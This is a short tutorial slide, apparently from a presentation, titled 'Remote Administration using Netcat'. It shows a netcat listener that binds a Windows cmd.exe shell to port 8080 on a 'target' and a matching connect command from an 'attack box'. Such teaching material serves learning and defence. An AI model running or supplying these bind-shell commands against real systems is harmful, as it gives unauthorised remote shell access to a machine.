

# Remote Administration using Netcat
In this example we will be using a Netcat connection to remote a Cmd of windows or execute program.

the target :
 	nc -lvp 8080  -e cmd.exe

On the attack box we connect to port 8080
	nc 192.168.100.107 8080